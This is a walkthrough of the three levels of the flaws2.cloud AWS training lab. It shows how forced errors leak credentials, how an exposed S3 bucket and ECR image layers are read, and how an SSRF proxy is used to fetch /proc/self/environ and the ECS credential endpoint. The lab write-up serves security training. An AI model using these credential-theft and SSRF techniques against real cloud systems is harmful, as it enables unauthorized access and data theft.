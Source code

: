 <h2>All 3 challenges for this lab can be found at http://flaws2.cloud/ </h2>

<h3>Level 1 Target: http://level1.flaws2.cloud</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/a39cf547-d5f9-43ae-8101-e4cf632d9398)

Step 1: Often developers will dump environmental variables when error conditions occur in order to help them debug problems.  To test if this occurs here we will capture the ‘Submit’ request in burp suite and change it to a non-number value (since client side only allows numbers to be submitted).  This will cause an error that leaks aws credentials:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2db0f698-f866-40f7-bdda-7c565ead2244)

Step 2: Configure a new aws profile with these credentials: aws configure –profile flawscloud
When prompted, enter the access key and secret access key.  

Step 3: Open the profile we just configured for flawscloud (this can be found in ~/.aws/credentials) and add the aws_session_token.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c558ab12-9e40-41b0-8fd8-7c3eb9626874)

Step 4: Now that we have credentials for an aws account, let’s check what this level1.flaws2.cloud  is: nslookup level1.flaws2.cloud <br>
This returns 52.217.139.141

Step 5: Run the command: nslookup 52.217.139.141 <br>
This returns s3-website-us-east-1.amazonaws.com  

Step 6: Now that we know this is a s3 bucket, let’s try to list the s3 bucket: aws --profile flawscloud s3 ls s3://level1.flaws2.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1c463ab7-c7c9-4704-bad6-7d11db1756b7)

This returns a list of the s3 bucket. 

Step 7: Copy the secret to our pc: aws --profile flawscloud s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html . <br>
Open the secret to solve level1.  

---
<h3>Level 2 Target http://container.target.flaws2.cloud </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/19d9da2e-a4d0-40de-a4f8-6ff08f60d1f8)

Step 1: Visiting the target shows we need credentials to login:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c0363893-ba65-478f-b322-56d656f43f28)

Step 2: Since we are told that this is an ecr and we are told the name of the ecr, let's check if we can list any images on the ecr: aws --profile flawscloud ecr list-images --repository-name level2

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/4b414d3f-272c-45c6-9efb-3d18eb8fa01d)

Step 3: To list more image digests we will need to get the registryid which is the account number of the user.  To get this, run: aws --profile flawscloud sts get-caller-identity

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/af2a981b-db78-4d9c-8d4d-d4f1b84574b6)

Step 4: Get a list of image digests: aws --profile flawscloud ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest |jq '.images[].imageManifest | fromjson'

This has a bunch of different digests.  One of the digests in the output is shown in the below screenshot:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ee2708d5-fa0d-4b79-b95c-926b96517e72)

Step 5: Check each one of the digests with the following command: aws --profile flawscloud ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621”

The output for this shows a url.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/98559782-b928-430a-968e-f8fa0098d7f6)

Step 6: Visiting the long url shown downloads a file.  Searching through the file we find credentials. 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5e01336c-e8dc-4f59-9341-704d7cfb2e0f)

Step 7: Use those credentials to login to http://container.target.flaws2.cloud which completes level 2.  

---
<h3>Level 3 Target: </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1d1bf7f8-33d8-4170-a2ef-7ada181f2eef)

Step 1: Seems like the container webserver directs the site to whatever is given after /proxy/.  Based on this, try to access local files: http://container.target.flaws2.cloud/proxy/file:///proc/self/environ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/79c271c0-4c62-4be8-85ac-f0195618df5e)

Step 2: Visit the path’s found on /proc/self/environ: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/04f04468-2815-4f67-9073-4a6a46775bbc)

This path reveals aws credentials.

Step 3: Configure a new profile user with the found aws credentials: aws configure --profile flawscloud2 <br>
Add the credentials when prompted.

Step 4: Add the aws session token manually into this user profile (found in ~/.aws/credentials): 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/e685934c-c56c-4345-a50b-43fbf3ecf2a4)

Step 5: Check if we can find any s3 buckets for this user: aws --profile flawscloud2 s3 ls   

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3820a3aa-4406-4a9b-9d9b-dee55aa1d478)

Navigate to the endpoint found on the s3 bucket to complete level 3: http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/ 
